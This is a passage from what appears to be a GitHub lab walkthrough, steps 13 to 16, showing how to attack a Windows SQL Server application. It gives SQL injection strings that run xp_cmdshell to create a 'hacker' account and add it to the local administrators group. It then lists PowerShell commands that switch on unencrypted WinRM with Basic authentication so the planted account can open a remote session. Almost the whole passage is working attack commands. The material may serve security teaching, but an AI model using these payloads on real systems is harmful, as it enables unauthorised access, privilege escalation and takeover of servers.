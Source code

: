 13. To use SQL injection to create a new user `hacker` with password `hacked1337`, use the following SQL injection strings inside the user input field
    ```
    1'; EXEC xp_cmdshell 'net user hacker hacked1337 /add';--
    ```
    ![image](https://github.com/user-attachments/assets/2886fbbc-a313-4583-a71b-530c3ab4e8c0)

14. To add this user to the local administrators group, add the following
    ```
    1'; EXEC xp_cmdshell 'net localgroup administrators hacker /add';--
    ```
    ![image](https://github.com/user-attachments/assets/93d8069c-8718-4a82-8b53-5f769d3cc89a)

15. To verify `hacker` was added, check in cmd or PowerShell after adding the user
    ![image](https://github.com/user-attachments/assets/6226b921-0ba3-490c-b937-aa8fdd775137)
16. To test RDP into the server with the new malicious credentials, enable enable PowerShell remoting between a local and target VMs, and get the IP address of the target remote machine. Then set it as a trusted host on the local machine to allow remote connections. Run each of the commands below
    ```      
    winrm quickconfig -Force
    Enable-PSRemoting -Force
    Set-Item WSMan:\localhost\Client\TrustedHosts -Value "the_other_Windows_IP_Address1,the_other_Windows_IP_Address2"
    Set-Item -force WSMan:\localhost\Client\AllowUnencrypted $true
    Set-Item -force WSMan:\localhost\Service\AllowUnencrypted $true
    Set-Item -force WSMan:\localhost\Client\Auth\Digest $true
    Set-Item -force WSMan:\localhost\Service\Auth\Basic $true
    ```
    To use the RDP capability, use
    ```
    Enter-PSSession -ComputerName the_other_Windows_IP_Address -Authentication Basic -Credential (Get-Credential)
    ```
    ![image](https://github.com/user-attachments/assets/12aed85a-f150-4cfd-af53-a7541d0f760b)


